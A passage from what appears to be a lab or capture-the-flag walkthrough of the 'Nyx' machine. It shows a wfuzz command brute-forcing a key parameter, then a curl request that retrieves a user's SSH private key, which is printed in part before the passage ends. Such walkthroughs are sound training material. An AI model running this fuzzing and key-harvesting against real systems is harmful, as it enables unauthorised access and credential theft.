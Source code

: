 After trying some strings, numbers and commands injections without success, I decided to fuzz the form with `wfuzz`, and discovered 3 keys that led to a different response length:

~~~
kali@kali:/data/Nyx/files$ wfuzz -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -d "key=FUZZ" --hh 287 http://nyx.box/key.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://nyx.box/key.php
Total requests: 220560

===================================================================
ID           Response   Lines    Word     Chars       Payload                                             
===================================================================

000000259:   200        15 L     29 W     282 Ch      "admin"                                             
000002247:   200        15 L     29 W     282 Ch      "root"                                              
000100067:   302        0 L      0 W      0 Ch        "1165685715469"                                     
~~~

## SSH private key

`admin` and `root` were obviously not good (the message is `really? lol`), but entering `1165685715469` redirected me to http://nyx.box/d41d8cd98f00b204e9800998ecf8427e.php where I was provided with `mpampis`'s SSH private key:

~~~
kali@kali:/data/Nyx/files$ curl -X POST -L -d "key=1165685715469" http://nyx.box/key.php
<title>mpampis key</title>
<pre>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA7T94TmbqiRlc6jGh6UOKyKVux+bYoskAdOybtgCfoh064CTHLTMT
HNnXWI8sT1Ml19svvVGnZZKmDTbS/7uOpgsmvO0pmqirCVo0UvD0YhKXVEwkTtmUvPBPAX
ucGRtefJcCtLWnSc4yMtzbYzSYEultUW5EfqqTwfjh48fxvLk1/kznO7EknxpLMupf6hJz
NbGLLbRwINeIjdC0k6iMdMrZ3n58Cho3kigNKSqcyBpkePE+RvnCBegtxBX/m1pUjPjYKY
zdZ0DROQyU3t7Wu6iX4TW688adHjAgXP7ERN0tL6RoJB9vHxO1GmGt5CLoJBYND1uLoTRe
p7xkIPwwgwAAA8iiu9/dorvf3QAAAAdzc2gtcnNhAAABAQDtP3hOZuqJGVzqMaHpQ4rIpW
7H5tiiyQB07Ju2AJ+iHTrgJMctMxMc2ddYjyxPUyXX2y+9UadlkqYNNtL/u46mCya87Sma
qKsJWjRS8PRiEpdUTCRO2ZS88E8Be5wZG158lwK0tadJzjIy3NtjNJgS6W1RbkR+qpPB+O
Hjx/G8uTX+TOc7sSSfGksy6l/qEnM1sYsttHAg14iN0LSTqIx0ytnefnwKGjeSKA0pKpzI
GmR48T5G+cIF6C3EFf+bWlSM+NgpjN1nQNE5DJTe3ta7qJfhNbrzxp0eMCBc/sRE3S0vpG
gkH28fE7UaYa3kIugkFg0PW4uhNF6nvGQg/DCDAAAAAwEAAQAAAQAaUzieOn07yTyuH+O/
Zmc37GNmew7+wR7z2m1MvLT54BRwWqRfN5OfV+y1Pu3Dv44rbX7WmwDgHG2gebzf84fYlN
QvkoFTT/Pqjb/QlDwJxdZU3D4LIcmHTYL2vyiLAKZzXK5ILv/pCKA5VJhjYaqeLpiauImR
JIxQsbUe+UixkATg7u3c/lkPH4p7POb7JJVbemKO07vzUSK3wzMWSukZs5ZZXKH8L5ypSy
CxPe4AUaO5IuXeKPeq45Q7lUvVKAFdxte438jup4YeyS7lbi2+BggJLt3W4jAlrWxaDhK3
/EICCIT8zLt+baltm/xrfiRM2OxTP2S/6/AQlkbSOaBBAAAAgQDTmKPk3pBpmR0tm5KmSK
6ubJkOfjcVwsLlZcVDHOcFIrgbNkEZPqqEnnRQD7BSBz0I05L1H8VgDR4ZkkgVqKmePhI9
Fs3NVsCasih8UubG2TTsGcvOalU+X6zagDiGWxxLNrQ81NBmCUBWPB/dFG+dUo9T0XigNQ
1lD1s4trUG6QAAAIEA/BlxOWPyLx4UHGO7RrrKEjWKpw2Ma6iRbQOo5HfmrJ+mZvUP+qBs
+Qgj3g+Qgt6y+EH67oxWeX/xTti1xHAc0Qx59181QrBFojp0XWtRumhASFC/TceBuP1fYe
DIZ6gYNXN/Pw7PFKStceO/Qhmee+K1/6XRwEvRSvXKG5a7sQ8AAACBAPDrM5bkjXYD9cq7
xfkT1t16YzqK9BmgFgSyOFQjtqFuLt4JtsQhPfip2QZkSCyPk8cVNx74Wvs4rxYl5pacmf
CR8v83WYMc6h4oBLmcxZsxMpaP8B/N7DZeS76A6idz+Cdj6BTmgMh7xFTXQOgB6Gh9LZmE
~~~